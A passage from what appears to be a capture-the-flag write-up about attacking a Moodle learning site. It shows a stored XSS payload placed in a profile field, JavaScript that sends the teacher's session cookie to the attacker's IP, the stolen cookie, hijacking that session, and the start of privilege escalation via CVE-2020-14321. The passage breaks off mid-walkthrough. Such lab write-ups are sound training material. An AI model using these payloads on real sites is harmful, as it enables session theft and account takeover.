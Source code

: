 The text is bold, so it did parse the HTML code and the **XSS vulnerability** can be tested with _script_ tags:
```
MoodleNet profile: <script src="http://10.10.14.3/test.js"></script>
```

The listener on my IP and port 80 receives a response, so lets steal the cookie of the teacher by adding JavaScript to _test.js_:
```
document.write('<img src="http://10.10.14.3/?'+document.cookie+'">');
```

After a while the teacher will check the profile and our listener will receive the cookie:
```
"GET /?MoodleSession=df063r3kka0u4fci2eqdj2u3d1 HTTP/1.1" 200 -
```

Our current cookie has to be replaced with this one in the **Developer Tools** and after refreshing, we gain access to the profile of the user _Manuel Phillips_.

In the **Security advisories of Moodle** is a [vulnerability to escalate privileges](https://moodle.org/mod/forum/discuss.php?d=407393) from teacher role to manager role.

### Escalating Privileges in Moodle

The vulnerability is **CVE-2020-14321** and has public [exploit code available on GitHub](https://github.com/HoangKien1020/CVE-2020-14321) and explanations on how to exploit it.

The user ID of the user _Manuel Phillips_ is 24 and can be seen in the URL when browsing to the profile.
The user _Lianne Carter_ is described as _Manager_ on the homepage.

Enrolling _Lianne Carter_ to a course:
```
Site Home -> Mathematics -> Participants -> Enrol Users
```

![Enroll user in course](schooled_web-4.png)
